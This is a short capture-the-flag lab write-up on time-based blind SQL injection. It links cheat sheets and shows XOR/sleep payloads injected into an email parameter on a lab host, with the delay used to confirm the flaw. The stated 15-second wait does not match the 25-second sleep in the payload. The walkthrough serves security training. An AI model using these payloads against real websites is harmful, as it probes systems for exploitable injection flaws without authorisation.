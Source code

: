 ```yaml
---
date: 2025-02-07
categories: [CTF, IML]
title: "IML - SQL Injection: Blind"
tags: ['http', 'sqli', 'exploit', 'rce', 'sql']

description: "SQL Injection Blind - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection: Blind

- Great Cheatsheets:
<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet>

<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md>

<https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1>


![image1](../resources/39150bc6d9f84dfba5d6a1710f047711.png)

- Test for Time-Based Blind SQLi:

**'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'**

<http://10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27>

**'XOR(if(1=1,sleep(5\*5),0))OR'**

<http://10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%20%27XOR(if(1=1,sleep(5*5),0))OR%27>

**'XOR(if(2=1,sleep(5\*5),0))OR'** \<--- This shouldn't work because the statement is false (2=1)

If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack


![image2](../resources/30f64b8f60ff4b02b7df79daf3aa388d.png)

Website hangs for approx 15sec, so it's probably vulnerable